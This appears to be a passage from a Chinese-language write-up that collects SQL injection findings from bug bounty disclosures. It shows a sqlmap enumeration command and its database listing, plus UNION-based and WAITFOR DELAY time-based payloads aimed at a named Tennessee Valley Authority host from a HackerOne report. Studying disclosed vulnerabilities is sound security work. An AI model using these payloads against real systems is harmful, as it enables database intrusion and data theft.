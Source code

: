    - **关键特征**：

     - 响应时间固定延迟 **5 秒**（与 `SLEEP` 参数严格匹配）
     - HTTP 状态码 **302 重定向**（需忽略跳转以观测注入效果）

2. **自动化验证（sqlmap）**

   - **命令执行**：

     ```
     sqlmap -u "https://www.████████" --data="username=test&password=123" -p username --dbms=mysql --dbs
     ```

   - **关键结果**：

     ```
     available databases [13]:
     [*] ███            -- 核心业务库（脱敏）
     [*] ██████mobile   -- 移动端用户数据
     [*] LEAM           -- 教育培训系统
     [*] mysql          -- 系统账户库（含 root 哈希）
     [*] testusers      -- 测试账户库
     ...
     ```

### 10.  SQL Server | CVE | GET | 时间盲注

[Tennessee Valley Authority | Report #1125752 - SQL Injection on https://soa-accp.glbx.tva.gov/ via "/api/" path - VI-21-015 | HackerOne](https://hackerone.com/reports/1125752)

1. **信息泄露验证**

   - **获取主机名**：

     ```
     GET /api/river/observed-data/GVDA1'/*!50000union*/SELECT+HOST_NAME()--+- HTTP/1.1
     Host: soa-accp.glbx.tva.gov
     ```

     **响应结果**：返回数据库服务器主机名（如 `SQLSVR-PROD-01`）。

   - **提取数据库版本**：

     ```
     GET /api/river/observed-data/GVDA1'/*!50000union*/SELECT+@@version--+- HTTP/1.1
     ```

     **响应结果**：

     ```
     Microsoft SQL Server 2017 (RTM-CU22-GDR) 14.0.3370.1 (X64)  
     Windows Server 2012 R2 Standard 6.3 (Build 9600)
     ```

2. **时间盲注验证**

   - **触发 10 秒延迟**：

     ```
     time curl -k "https://soa-accp.glbx.tva.gov/api/river/observed-data/-GVDA1'WAITFOR DELAY'0:0:10'--+-"
     ```
